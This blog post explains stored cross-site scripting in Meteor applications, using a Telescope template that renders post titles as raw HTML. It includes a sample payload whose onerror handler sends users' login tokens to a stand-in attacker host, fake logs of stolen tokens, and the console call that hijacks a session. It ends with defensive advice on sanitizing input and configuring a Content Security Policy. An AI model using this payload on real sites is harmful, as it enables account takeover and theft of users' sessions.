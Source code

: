 ```yaml
---
layout: post
title:  "Hijacking Meteor Accounts With XSS"
titleParts: ["Hijacking Meteor Accounts", "With XSS"]
excerpt: "Cross Site Scripting attacks are especially dangerous in Meteor applications. Watch how an XSS vulnerability can lead to privilege escalation."
author: "Pete Corey"
date:   2015-09-07
tags: ["Javascript", "Meteor", "Security", "XSS"]
---
```


You've probably heard the term "XSS", or [cross-site scripting](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting), floating around the Meteor community. You've probably also heard that the <code class="language-*">browser-policy</code> package prevents XSS. Great! But... What is XSS?

Let's pretend that we've built an awesome new [Telescope](https://github.com/TelescopeJS/Telescope) application, and we've decided to get a little radical with our design. We've given our users the ability to embed images in their post titles! Our custom <code class="language-javascript">post_title</code> template looks something like this:

<pre class="language-markup"><code class="language-markup">&lt;template name="custom_post_title"&gt;
  &lt;h3 class="post-title &#123;&#123;moduleClass&#125;&#125;"&gt;
    &lt;a href="&#123;&#123;this.getLink&#125;&#125;"&gt;&#123;&#123;&#123;title&#125;&#125;&#125;&lt;/a&gt;
  &lt;/h3&gt;
&lt;/template&gt;
</code></pre>

Great! Now our users can use <code class="language-markup">&lt;img&gt;</code> tags to embed pictures directly in their post titles. There's absolutely nothing that go wrong here, right? Well...

## The Dangers of XSS

This change has actually exposed our application to a particularly dangerous form of cross-site scripting; [Stored XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)#Stored_XSS_Attacks). We've given users the ability to enter potentially malicious markup in their titles. Check out this example title:

<pre class="language-markup"><code class="language-markup">&lt;img src="fakeurl"
     onerror="$.get('//www.malicio.us/'+localStorage['Meteor.loginToken'])"
     alt="Cats suck!"&gt;
</code></pre>

Now, imagine that the bad person who posted this title has a simple web server running on <code class="language-*">www.malicio.us</code> listening for and logging any <code class="language-*">GET</code> requests it recieves. After a few innocent users stumble across this post on our Telescope application, their sensitive login tokens would be pulled from their local storage and sent to <code class="language-*">malicio.us</code>. The <code class="language-*">malicio.us</code> web logs would look something like this:

<pre class="language-bash"><code class="language-bash">GET http://www.malicio.us/g8Ri6DxKc3lSwqnYxHCJ0xE-XjMPf3jX-p_xSUPnN-D
GET http://www.malicio.us/LPPp7Tdb_qveRwa7-dLeCAxpqpc9oYM53Gt0HG6kwQ5
GET http://www.malicio.us/go9olSuebBjfQQqTrL-86d_LlfcctG848r7dBhW_kCL
</code></pre>

The attacker who posted the malicious title could easily steal any of these active sessions by navigating to our Meteor application and running the following code in their browser console:

<pre class="language-javascript"><code class="language-javascript">Meteor.loginWithToken("g8Ri6DxKc3lSwqnYxHCJ0xE-XjMPf3jX-p_xSUPnN-D");
</code></pre>

And just like that, a user's account has been stolen.

<hr/>

The crux of the issue here is that we're using a [triple-brace tag](https://github.com/meteor/meteor/tree/devel/packages/spacebars#triple-braced-tags) to insert raw HTML directly into the DOM. Without any kind of sanitation or validation, we have no way of knowing that users aren't providing us with malicious markup that will potentially run on all of our users' browsers.

In this case, the attacker simply grabbed the current user's `loginToken` out of local storage with the intent of hijacking their account. XSS attacks can be far more sophisticated, though. They can be as subtle as silently calling methods on behalf of the client, and as lavish as constructing entire user interface components designed to extract sensitive information (credentials, credit card numbers, etc…) from users.

Your Meteor application is not solely exposed to cross-site scripting through the use of triple-brace tags. Malicious HTML/JavaScript can be introduced into your [Blaze](https://www.meteor.com/blaze)-powered application through the use of [SafeString](https://github.com/meteor/meteor/blob/devel/packages/spacebars/README.md#safestring), [dynamic attributes](https://github.com/meteor/meteor/blob/devel/packages/spacebars/README.md#dynamic-attributes), and dynamic [attribute values](https://github.com/meteor/meteor/blob/devel/packages/spacebars/README.md#in-attribute-values), to name a few. When using these techniques with user-provided data, be especially sure that you're properly sanitizing or validating the data before sending it into the DOM.

## Browser-policy as a safety net

The [browser-policy](https://github.com/meteor/meteor/tree/devel/packages/browser-policy) package enables your Meteor application to establish its [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/Security/CSP/Introducing_Content_Security_Policy), or CSP. The goal of CSP is to prevent unexpected JavaScript from running on your page.

However, <code class="language-*">browser-policy</code> package is not a turnkey solution to our XSS problem. It requires some configuration to be especially useful. David Weldon has an [excellent guide](https://dweldon.silvrback.com/browser-policy) outlining the benefits of using <code class="language-*">browser-policy</code> and how to go about tuning it to your application. For our application, we would want to make sure that we're disallowing inline scripts:

<pre class="language-javascript"><code class="language-javascript">BrowserPolicy.content.disallowInlineScripts();
</code></pre>

By disallowing inline scripts, the JavaScript found in the <code class="language-javascript">onerror</code> of the image tag would not be allowed to run. This would effectively stop the XSS attack dead in its tracks.

While CSP is an amazing tool that can be used to harden your application against attackers, I believe that it should be considered your last line of defense. You should always try to find and eradicate all potential sources of cross-site scripting, rather than relying on the <code class="language-*">browser-policy</code> to prevent it. There is always the chance that you may have misconfigured your <code class="language-*">browser-policy</code>. On top of that, Content Security Policy [isn't supported on older browsers](http://caniuse.com/#feat=contentsecuritypolicy).

## Final Thoughts

Keep in mind that this was just a single example of cross-site scripting in action. Attackers can use a variety of other techniques and methods in order to achieve their nefarious intents.

The truth is, XSS attacks are relatively rare in Meteor applications. The Meteor team made a great decision when going with a secure default for value interpolation ([double-brace tags](https://github.com/meteor/meteor/tree/devel/packages/spacebars#double-braced-tags)). However, there are [still scenarios](/blog/2015/04/03/black-box-meteor-triple-brace-xss/) where XSS can rear its ugly head in your Meteor application. In addition to using and configuring `browser-policy`, you should try to identify and fix any potential areas where cross-site scripting may occur.
